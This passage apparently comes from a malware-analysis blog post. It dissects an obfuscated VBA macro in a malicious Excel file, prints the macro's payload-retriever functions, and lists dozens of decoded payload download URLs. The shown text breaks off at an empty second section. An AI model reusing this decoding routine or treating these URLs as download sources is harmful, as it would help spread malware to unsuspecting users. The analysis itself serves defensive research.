 That's great and all....but we want ALL the domains.  So let's dive into how their decoding them so we can do just that :D.

Skipping some red herring functions and random variable declarations, we eventually end up looking at the contents of the *sb_t* function.

```vb
Function sb_t()
sb_t = hokkkk(4, 4) & hokkkk(3, 55)
End Function
```
All this functions ends up doing is calling the `hokkk()` function twice, passing two separate sets of input into it each time.  This functions happens to be the main part of the macro code we're interested in, being responsible for grabbing the obfuscated blob of text from different sections of the Excel document.

```vb
'PAYLOAD RETRIEVER ===========================================================================
Function hokkkk(s, j As Integer)
If j > 5 Then jj = 1 Else jj = -1 '-1 decoddes the first section, +1 the second
'J82 or 
For Each u In Sheets(s).UsedRange.SpecialCells(xlCellTypeConstants): m = u: Next
'm = the hidden obfuscated characters
'strconv converts the chars to Unicode and then returns an single element array
'the way it does this is by supply a zero-length string to split (aka Chr(0)) https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/split-function
v1 = Split(StrConv(m, 64), Chr(0)) 'v1 = string of unOBFUSCATED characters
For Each vv1 In v1 'for each char in v1
On Error Resume Next
 k = k & Chr(Asc(vv1) + jj) 'take the unicode numerical value + jj (-1 or 1) and then add it to our massive string of urls (k)
Next
 hokkkk = k 'return new url and payload
```

Great. Now if we run through these two loops the macro has successfully located it's obfuscated payload, obfuscated it, and concatenated it into two large strings that look like this:

**Section1**
```txt
http://joselito.1stwebs.org/d7uod8.rar$http://riveroaksautogroup.com/raeigb8.rar$http://urguru.paulhugh.es/f77i5e.zip$http://profumiecosmeticiessens.b2i.cloud/wb836k.rar$http://urihk.com/raaxrm0mn.rar$http://radoncqueens.com/tfnpwfjj.rar$http://love.ivpr.org/u1oqp2.rar$http://test.primeranks.net/ly6tnmlw.zip$http://nutri-bold.seriesnow.top/cvxa816n2.rar$http://trucos-para.ganar-dinero-hoy.com/slmxaikv.zip$http://www2.lotesbrisamar.es/t991kf.rar$http://bys.anupdave.com/ola8fcfh.zip$http://staging.svr.deveyesgroup.com/fc604xp8.zip$http://soporte1.eduardoabreu.com/ebhsdv63.zip$http://sadaprod.com/bttxlf4.zip$http://vetrine.1ecom.it/haox2v.rar$http://laureys.be/uzssv27.rar$http://radiationtherapyqueens.com/ln7jdm.zip$http://luminouspla.net/t1a9t50v.zip$http://aaa.ivpr.org/c3du5tw.zip$http://pmglance.startwriteup.com/vvx5qo7.zip$http://cms.ivpr.org/by9zwa7p1.zip$http://ubereats.fr.pilot.ba/z7rj4qvle.rar$http://artec.com.tr/xkpffwn.zip$http://panther-hosting.co.uk/treurjrq.zip$http://selarasgroup.co.id/gn3l49.zip$http://peau.ivpr.org/a3o1wnvp.zip$http://trainingzoneatlanta.com/u49wl9p.zip$http://www.gastronauts.asia/ylztwx.rar$http://argentina.ganar-dinero-hoy.com/kzjvz80.rar$http://handyman.macleannsw.com/pu4kty2l.rar$http://salaodigitalautomovel.pt.deve.pt/d8ms3mljy.zip$http://services.tapling.deveyesgroup.com/bey0q9xg.zip$http://ajaelectric.net/dmhmrz.zip$http://kosinlab.com

```
**Section2**
```txt
```